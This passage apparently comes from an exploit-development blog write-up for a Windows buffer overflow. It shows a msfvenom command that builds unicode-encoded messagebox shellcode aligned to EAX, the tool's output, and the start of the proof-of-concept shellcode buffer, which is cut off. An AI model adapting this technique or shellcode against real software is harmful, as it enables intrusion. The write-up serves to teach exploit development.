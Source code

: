 If the padding is correct, EAX should directly point to the B's instead of the A's.

![](/assets/img/Findings6/16.png)

Splendid.

# Generating some generous shellcode

Shellcode is generated with the use of the unicode_mixed encoder in msfvenom:

```term
root@whitecr0wz:~# msfvenom -p windows/messagebox TEXT="Thanks for reading the post!" -e x86/unicode_mixed -f py EXITFUNC=thread BufferRegister=EAX > shellcode 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 700 (iteration=0)
x86/unicode_mixed chosen with final size 700
Payload size: 700 bytes
Final size of py file: 3405 bytes
root@whitecr0wz:~# 
```

Final poc:

```term
# msfvenom -p windows/messagebox TEXT="Thanks for reading the post!" -e x86/unicode_mixed -f py EXITFUNC=thread BufferRegister=EAX > shellcode 
# Payload size: 700 bytes

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x77\x69\x68\x6b\x63\x6b"
buf += b"\x38\x59\x54\x34\x4c\x64\x6a\x54\x4c\x71\x7a\x32\x36"
buf += b"\x52\x52\x57\x4d\x61\x78\x49\x33\x34\x54\x4b\x51\x61"
buf += b"\x4e\x50\x42\x6b\x54\x36\x4c\x4c\x44\x4b\x72\x56\x6b"
buf += b"\x6c\x62\x6b\x4d\x76\x59\x78\x34\x4b\x31\x6e\x6b\x70"
buf += b"\x72\x6b\x6d\x66\x30\x38\x6e\x6f\x4d\x48\x44\x35\x78"
buf += b"\x73\x71\x49\x39\x71\x48\x51\x79\x6f\x47\x71\x43\x30"
buf += b"\x72\x6b\x32\x4c\x4d\x54\x4d\x54\x32\x6b\x4d\x75\x4d"
buf += b"\x6c\x72\x6b\x61\x44\x4c\x68\x71\x68\x4d\x31\x69\x5a"
buf += b"\x44\x4b\x30\x4a\x6a\x78\x72\x6b\x31\x4a\x4b\x70\x6d"
```